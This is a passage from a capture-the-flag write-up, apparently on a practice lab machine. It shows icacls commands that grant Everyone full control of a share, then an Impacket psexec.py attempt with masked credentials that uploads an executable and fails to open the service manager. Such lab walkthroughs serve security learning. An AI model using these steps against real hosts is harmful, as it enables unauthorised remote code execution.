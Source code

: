 

### svcmanager

#### Make Share Writable

To see if that was the only change, I jumped back onto the host as
SYSTEM (using a different method I'll save for the box retirement) and
checked out the permissions on the `users` folder:



    C:\Shares>icacls users
    users Everyone:(OI)(CI)(RX)
          NT AUTHORITY\SYSTEM:(OI)(CI)(F)
          BUILTIN\Administrators:(OI)(CI)(F)    



Everyone can read and execute, but not write. I'll change that:



    C:\Shares>icacls users /grant :r Everyone:F
    processed file: users                                
    Successfully processed 1 files; Failed processing 0 files

    C:\Shares>icacls users
    users Everyone:(F)
          BUILTIN\BUILTIN:(R)
          Everyone:(OI)(CI)(RX)
          NT AUTHORITY\SYSTEM:(OI)(CI)(F)
          BUILTIN\Administrators:(OI)(CI)(F)

    Successfully processed 1 files; Failed processing 0 files



#### New PSExec Fail

Now when I run `psexec.py`, it finds the writable share, but fails
later:



    root@kali# psexec.py 'tempuser:***********@10.10.10.178'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.178.....
    [-] share 'ADMIN$' is not writable.
    [-] share 'C$' is not writable.
    [-] share 'Data' is not writable.
    [-] share 'Secure$' is not writable.
    [*] Found writable share Users
    [*] Uploading file WOFaTJjw.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [-] Error opening SVCManager on 10.10.10.178.....
    [-] Error performing the installation, cleaning up: Unable to open SVCManager



